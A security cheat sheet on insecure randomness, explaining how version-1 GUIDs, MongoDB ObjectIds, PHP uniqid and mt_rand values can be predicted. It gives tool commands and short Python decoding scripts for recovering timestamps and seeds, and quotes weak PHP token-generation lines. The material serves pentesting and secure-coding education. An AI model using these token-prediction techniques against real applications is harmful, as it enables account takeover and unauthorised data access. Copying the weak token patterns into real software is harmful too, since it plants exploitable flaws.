 # Insecure Randomness

## Summary

* [GUID / UUID](#guid--uuid)
    * [GUID Versions](#guid-versions)
* [Mongo ObjectId](#mongo-objectid)
* [Uniqid](#uniqid)
* [mt_rand](#mt_rand)
* [Other](#other)
* [References](#references)


## GUID / UUID

A GUID (Globally Unique Identifier) or UUID (Universally Unique Identifier) is a 128-bit number used to uniquely identify information in computer systems. They are typically represented as a string of hexadecimal digits, divided into five groups separated by hyphens, such as `550e8400-e29b-41d4-a716-446655440000`. GUIDs/UUIDs are designed to be unique across both space and time, reducing the likelihood of duplication even when generated by different systems or at different times.


### GUID Versions

Version identification: `xxxxxxxx-xxxx-Mxxx-Nxxx-xxxxxxxxxxxx` 
The four-bit M and the 1- to 3-bit N fields code the format of the UUID itself.

| Version  | Notes  |
|----------|--------|
| 0 | Only `00000000-0000-0000-0000-000000000000` |
| 1 | based on time, or clock sequence |
| 2 | reserved in the RFC 4122, but ommitted in many implementations |
| 3 | based on a MD5 hash |
| 4 | randomly generated |
| 5 | based on a SHA1 hash |


### Tools

* [intruder-io/guidtool](https://github.com/intruder-io/guidtool) - A tool to inspect and attack version 1 GUIDs
    ```ps1
    $ guidtool -i 95f6e264-bb00-11ec-8833-00155d01ef00
    UUID version: 1
    UUID time: 2022-04-13 08:06:13.202186
    UUID timestamp: 138691299732021860
    UUID node: 91754721024
    UUID MAC address: 00:15:5d:01:ef:00
    UUID clock sequence: 2099
    
    $ guidtool 1b2d78d0-47cf-11ec-8d62-0ff591f2a37c -t '2021-11-17 18:03:17' -p 10000
    ```


## Mongo ObjectId

Mongo ObjectIds are generated in a predictable manner, the 12-byte ObjectId value consists of: 

* **Timestamp** (4 bytes): Represents the ObjectId’s creation time, measured in seconds since the Unix epoch (January 1, 1970).
* **Machine Identifier** (3 bytes): Identifies the machine on which the ObjectId was generated. Typically derived from the machine's hostname or IP address, making it predictable for documents created on the same machine.
* **Process ID** (2 bytes): Identifies the process that generated the ObjectId. Typically the process ID of the MongoDB server process, making it predictable for documents created by the same process.
* **Counter** (3 bytes): A unique counter value that is incremented for each new ObjectId generated. Initialized to a random value when the process starts, but subsequent values are predictable as they are generated in sequence.

Token example

* `5ae9b90a2c144b9def01ec37`, `5ae9bac82c144b9def01ec39`


### Tools

* [andresriancho/mongo-objectid-predict](https://github.com/andresriancho/mongo-objectid-predict) - Predict Mongo ObjectIds
    ```ps1
    ./mongo-objectid-predict 5ae9b90a2c144b9def01ec37
    5ae9bac82c144b9def01ec39
    5ae9bacf2c144b9def01ec3a
    5ae9bada2c144b9def01ec3b
    ```
* Python script to recover the `timestamp`, `process` and `counter`
    ```py
    def MongoDB_ObjectID(timestamp, process, counter):
        return "%08x%10x%06x" % (
            timestamp,
            process,
            counter,
        )

    def reverse_MongoDB_ObjectID(token):
        timestamp = int(token[0:8], 16)
        process = int(token[8:18], 16)
        counter = int(token[18:24], 16)
        return timestamp, process, counter


    def check(token):
        (timestamp, process, counter) = reverse_MongoDB_ObjectID(token)
        return token == MongoDB_ObjectID(timestamp, process, counter)

    tokens = ["5ae9b90a2c144b9def01ec37", "5ae9bac82c144b9def01ec39"]
    for token in tokens:
        (timestamp, process, counter) = reverse_MongoDB_ObjectID(token)
        print(f"{token}: {timestamp} - {process} - {counter}")
    ```


## Uniqid

Token derived using `uniqid` are based on timestamp and they can be reversed.

* [Riamse/python-uniqid](https://github.com/Riamse/python-uniqid/blob/master/uniqid.py) is based on a timestamp
* [php/uniqid](https://github.com/php/php-src/blob/master/ext/standard/uniqid.c)

Token examples

* uniqid: `6659cea087cd6`, `6659cea087cea`
* sha256(uniqid): `4b26d474c77daf9a94d82039f4c9b8e555ad505249437c0987f12c1b80de0bf4`, `ae72a4c4cdf77f39d1b0133394c0cb24c33c61c4505a9fe33ab89315d3f5a1e4`


### Tools

```py
import math
import datetime

def uniqid(timestamp: float) -> str:
    sec = math.floor(timestamp)
    usec = round(1000000 * (timestamp - sec))
    return "%8x%05x" % (sec, usec)

def reverse_uniqid(value: str) -> float:
    sec = int(value[:8], 16)
    usec = int(value[8:], 16)
    return float(f"{sec}.{usec}")

tokens = ["6659cea087cd6" , "6659cea087cea"]
for token in tokens:
    t = float(reverse_uniqid(token))
    d = datetime.datetime.fromtimestamp(t)
    print(f"{token} - {t} => {d}")
```


## mt_rand

Breaking mt_rand() with two output values and no bruteforce.

* [ambionics/mt_rand-reverse](https://github.com/ambionics/mt_rand-reverse) - Script to recover mt_rand()'s seed with only two outputs and without any bruteforce.

```ps1
./display_mt_rand.php 12345678 123
712530069 674417379

./reverse_mt_rand.py 712530069 674417379 123 1
```


## Other

Other bad ideas that are sometimes shipped into production.

* `$token = md5($emailId).rand(10,9999);`
* `$token = md5(time()+123456789 % rand(4000, 55000000));`

Generic identification and sandwitch attack: 

* [AethliosIK/reset-tolkien](https://github.com/AethliosIK/reset-tolkien) - Unsecure time-based secret exploitation and Sandwich attack implementation Resources
    ```ps1
    reset-tolkien detect 660430516ffcf -d "Wed, 27 Mar 2024 14:42:25 GMT" --prefixes "attacker@example.com" --suffixes "attacker@example.com" --timezone "-7"
    reset-tolkien sandwich 660430516ffcf -bt 1711550546.485597 -et 1711550546.505134 -o output.txt --token-format="uniqid"
    ``` 


## References

* [In GUID We Trust - Daniel Thatcher - October 11, 2022](https://www.intruder.io/research/in-guid-we-trust)
* [IDOR through MongoDB Object IDs Prediction - Amey Anekar - August 25, 2020](https://techkranti.com/idor-through-mongodb-object-ids-prediction/)
* [[FR] Secret basé sur le temps non sécurisé et attaque par sandwich - Analyse de mes recherches et publication de l’outil “Reset Tolkien” - Tom CHAMBARETAUD / @AethliosIK - 2 apr 2024](https://www.aeth.cc/public/Article-Reset-Tolkien/secret-time-based-article-fr.html)
* [[EN] Unsecure time-based secret and Sandwich Attack - Analysis of my research and release of the “Reset Tolkien” tool - Tom CHAMBARETAUD / @AethliosIK - 2 apr 2024](https://www.aeth.cc/public/Article-Reset-Tolkien/secret-time-based-article-en.html)
* [Secret non sécurisé basé sur le temps et attaques par sandwich - Tom CHAMBARETAUD aka Aethlios](#)
* [Exploiting Weak Pseudo-Random Number Generation in PHP’s rand and srand Functions - Jacob Moore - Oct 18, 2023](https://medium.com/@moorejacob2017/exploiting-weak-pseudo-random-number-generation-in-phps-rand-and-srand-functions-445229b83e01)
* [Breaking PHP's mt_rand() with 2 values and no bruteforce - Charles Fol - 06 January, 2020](https://www.ambionics.io/blog/php-mt-rand-prediction)